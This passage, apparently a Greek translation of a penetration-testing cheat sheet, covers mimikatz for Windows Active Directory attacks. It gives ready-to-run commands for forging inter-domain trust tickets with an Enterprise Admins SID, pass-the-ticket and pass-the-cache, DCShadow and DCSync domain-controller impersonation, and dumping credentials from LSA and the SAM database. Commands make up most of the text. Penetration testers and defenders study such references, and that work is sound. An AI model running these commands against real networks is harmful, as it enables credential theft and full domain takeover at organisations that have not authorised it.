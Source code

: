 Τα Εισιτήρια Εμπιστοσύνης χρησιμοποιούνται για την πρόσβαση σε πόρους σε διάφορους τομείς εκμεταλλευόμενα τις σχέσεις εμπιστοσύνης. Κύρια εντολή και παράμετροι:

- Εντολή: Παρόμοια με το Golden Ticket αλλά για σχέσεις εμπιστοσύνης.
- Παράμετροι:
- `/target`: Το FQDN του στόχου τομέα.
- `/rc4`: Το NTLM hash για τον λογαριασμό εμπιστοσύνης.

Παράδειγμα:
```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```
### Additional Kerberos Commands

- **Listing Tickets**:
- Command: `kerberos::list`
- Λίστα όλων των Kerberos εισιτηρίων για την τρέχουσα συνεδρία χρήστη.

- **Pass the Cache**:
- Command: `kerberos::ptc`
- Εισάγει Kerberos εισιτήρια από αρχεία cache.
- Example: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **Pass the Ticket**:
- Command: `kerberos::ptt`
- Επιτρέπει τη χρήση ενός Kerberos εισιτηρίου σε άλλη συνεδρία.
- Example: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **Purge Tickets**:
- Command: `kerberos::purge`
- Καθαρίζει όλα τα Kerberos εισιτήρια από τη συνεδρία.
- Χρήσιμο πριν από τη χρήση εντολών χειρισμού εισιτηρίων για την αποφυγή συγκρούσεων.


### Active Directory Tampering

- **DCShadow**: Προσωρινά να κάνει μια μηχανή να λειτουργεί ως DC για χειρισμό αντικειμένων AD.
- `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`

- **DCSync**: Μιμείται έναν DC για να ζητήσει δεδομένα κωδικών πρόσβασης.
- `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

### Credential Access

- **LSADUMP::LSA**: Εξάγει διαπιστευτήρια από LSA.
- `mimikatz "lsadump::lsa /inject" exit`

- **LSADUMP::NetSync**: Υποδύεται έναν DC χρησιμοποιώντας τα δεδομένα κωδικού πρόσβασης ενός υπολογιστή.
- *Δεν παρέχεται συγκεκριμένη εντολή για NetSync στο αρχικό κείμενο.*

- **LSADUMP::SAM**: Πρόσβαση στη τοπική βάση δεδομένων SAM.
- `mimikatz "lsadump::sam" exit`
